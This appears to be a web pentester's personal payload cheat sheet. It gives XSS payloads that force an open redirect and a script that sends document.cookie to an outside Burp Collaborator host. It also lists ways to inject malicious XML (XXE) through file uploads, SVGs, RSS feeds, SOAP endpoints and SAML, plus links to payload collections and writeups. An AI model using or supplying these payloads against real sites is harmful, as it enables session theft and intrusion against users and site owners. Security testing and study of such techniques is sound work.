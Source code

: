 # My Notes - Payload

## XSS to Open Redirection Payload:
1. http://Test"><img src=x onload=window.location="http://google.com">
2. "><img src=x onerror=window.location="http://google.com">

## Exfiltrate cookie:
<script>fetch('https://anmol.burpcollaborator.net?'+document.cookie, {method: 'POST',mode: 'no-cors',body:document.cookie});alert('exfiltrated the document.cookie');</script>

## Multi XSS Exploit in Upload File
1. <a href="https://systemweakness.com/multi-xss-exploit-in-upload-file-2bfde6ce471a">Multi XSS Exploit in Upload File</a>

## Tiny XSS
1. <a href="https://tinyxss.terjanq.me/">Tiny XSS by @terjanq</a>

## Server-Side input validation testing
1. <a href=https://redtm.com/web-pentest/server-side-input-validation>Server-Side input validation testing</a>

## XXE Techniques [Observations]
1. Convert the content type from "application/json"/"application/x-www-form-urlencoded" to "application/xml".
2. File Uploads allows for docx/xlcs/pdf/zip , unzip the package and add your evil xml code into the xml files.
3. If svg allowed in picture upload , you can inject xml in svgs.
4. If the web app offers RSS feeds , add your malicious code into the RSS.
5. Fuzz for /soap api , some applications still running soap apis
6. If the target web app allows for SSO integration, you can inject your malicious xml code in the SAML request/response
7. For more: <a href="https://www.synack.com/blog/a-deep-dive-into-xxe-injection/">A Deep Dive into XXE Injection</a>

## XXE OOB
1. <a href="SOAP- Based Unauthenticated Out-of-Band XML External Entity (OOB-XXE) in a Help Desk Software">SOAP- Based Unauthenticated Out-of-Band XML External Entity (OOB-XXE) in a Help Desk Software</a>
2. <a href="https://hackerone.com/reports/36450">Soap-based XXE vulnerability /soapserver/</a>

## Resources
1. https://github.com/xsuperbug/payloads/blob/master/XSS%20-2
